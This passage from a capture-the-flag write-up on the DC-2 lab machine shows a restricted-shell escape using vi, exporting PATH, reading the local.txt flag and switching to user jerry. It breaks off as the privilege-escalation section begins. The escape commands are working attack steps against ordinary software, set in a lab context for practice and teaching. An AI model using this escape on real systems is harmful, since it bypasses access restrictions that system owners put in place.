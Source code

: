 Let's find out which commands are allowed by listing out the `/home/tom/usr/bin` directory.

```
tom@DC-2:~$ ls /home/tom/usr/bin
less  ls  scp  vi
```

There is a way to escape restricted shell using the `vi` command.

We can find the payload on [GTFOBins](https://gtfobins.github.io).

![4](https://github.com/Kunull/Write-ups/assets/110326359/9af8dee2-32b0-47f0-9108-59b1b5cfedad)

Because we want a Bash shell, we will have to modify the payload slightly.

```
vi
:set shell=/bin/bash
:shell
```

Let's execute the payload.

```
tom@DC-2:~$ vi

tom@DC-2:~$
```

Now, let's export the `PATH` in the environment.

```
tom@DC-2:~$ export PATH=/bin:/usr/bin:$PATH
tom@DC-2:~$ export SHELL=/bin/bash:$SHELL
```

### local.txt

We can now `cat` the `local.txt` flag.

```
tom@DC-2:~$ cat local.txt
a5af626ceea9f79c26034c91502946ce
```

### Switching to the jerry user

Let's switch to the user `jerry` using the `su` command.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ 
```

### Privilege Escalation

Let's check what commands `jerry` can run with `root` privileges without needing a password.
